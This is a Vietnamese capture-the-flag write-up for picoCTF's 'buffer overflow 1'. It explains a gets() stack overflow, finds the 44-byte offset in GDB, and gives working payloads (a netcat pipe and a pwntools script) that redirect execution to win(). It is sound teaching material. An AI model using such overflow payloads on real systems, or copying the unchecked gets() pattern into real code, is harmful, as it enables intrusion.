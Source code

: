 # buffer overflow 1

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

b) Nhận xét

- Chúng ta có thể dễ dàng thấy lỗi nằm ở hàm gets, hàm này không kiểm tra số lượng ký tự nhập vào dẫn đến lỗi tràn bộ đệm

## 2. Ý tưởng khai thác

- Chỉ khi chạy hàm win thì flag mới được in ra, vậy chúng ta phải gọi được hàm win. Ở đây hàm win không được gọi đến nhưng chúng ta có thể gọi đến nó bằng cách ghi đè địa chỉ trở về (return address) vào thanh ghi EIP
- Thanh ghi EIP (trong kiến trúc 16 bit gọi là thanh ghi IP, trong kiến trúc 32 bit gọi là EIP, trong kiến trúc 64 bit gọi là RIP) là thanh ghi con trỏ lệnh, nó dùng để lưu địa chỉ của câu lệnh tiếp theo được thực hiện.
- Mỗi khi chương trình chạy thì hệ điều hành sẽ cung cấp cho chương trình một vùng nhớ trên RAM dùng để lưu trữ các biến nội bộ, các giá trị trở về (giá trị của EIP), giá trị các thanh ghi,… gọi là vùng nhớ stack. Ở bài này, mô hình stack (tại hàm vuln) trông như sau:

![image.png](image.png)

- Stack ghi từ địa chỉ thấp lên địa chỉ cao (ở đây là từ dưới lên trên) nên ta sẽ ghi 32 ký tự để ghi đè biến buf + 4 ký tự ghi đè EBP. 36 ký tự này gọi là padding. Sau đó ta cần ghi đè địa chỉ của return address bằng địa chỉ của hàm win
- Trên lý thuyết là vậy nhưng thật ra padding sẽ khác (do sự căn chỉnh stack, do compiler hoặc do người ra đề cố tình sửa padding stack) vì vậy thay vì tính bằng tay thì ta nên dùng công cụ. Ở đây mình dùng https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html
- Đầu tiên ta Generate ra 100 ký tự rồi chạy trong GDB bằng câu lệnh

```cpp
run < <(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
```

![image.png](image%201.png)

## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Đầu tiên ta mở chương trình bằng GDB

![image.png](image%202.png)

- Generate ra 100 ký tự rồi chạy trong GDB bằng câu lệnh

```cpp
run < <(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
```

![image.png](image%203.png)

- Quan sát stack ta thấy EIP ghi “4Ab5”, ta check trên công cụ thì thấy offset là 44, vậy khoảng cách từ biến buf đến thanh ghi EIP thực chất phải là 44 chứ không phải là 36 như ta đã tính tay

![image.png](image%204.png)

b) Bước 2: Tìm địa chỉ của hàm win

- Dùng câu lệnh “info functions” để xem địa chỉ các hàm:

![image.png](image%205.png)

- Ở đây ta tìm được địa chỉ của hàm win là 0x080491f6. Theo kiến trúc little-edian thì địa chỉ đó sẽ được ghi trong stack là \xf6\x91\x04\x08
- Vậy payload cần dùng là: 44 ký tự padding +  “\xf6\x91\x04\x08”

c) Bước 3: Viết payload

- Chúng ta có 2 cách để truyền payload bao gồm truyền bằng ống (pipe) và truyền bằng file thực thi
- Cách 1: truyền bằng pipe:
+ Payload:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08
+ Câu lệnh truyền payload bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08"; cat) | nc saturn.picoctf.net 63395
```

![image.png](image%206.png)

- Cách 2: dùng file thực thi
+ Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('saturn.picoctf.net', 63395)
payload = b'a'*44 + p32(0x080491f6)

p.sendline(payload)
p.interactive()
```

![image.png](image%207.png)

## 4. Kết luận

- Ta chỉ nên vẽ stack để tham khảo, không nên tính padding bằng stack mà nên dùng tool
- Phương pháp chúng ta vừa dùng được gọi là kỹ thuật quay về phân vùng .text (return to .text). Một tập tin thực thi theo định dạng ELF có nhiều phân vùng. Phân vùng .text là phân vùng chứa tất cả các mã lệnh đã được trình biên dịch tạo ra, và sẽ được bộ vi xử lý thực thi. Kỹ thuật này khá quan trọng vì đôi khi mã lệnh mà chúng ta cần thực thi đã có sẵn trong chương trình nên chúng ta chỉ cần tìm ra địa chỉ các mã lệnh đó là đã có thể thực hiện thành công việc tận dụng lỗi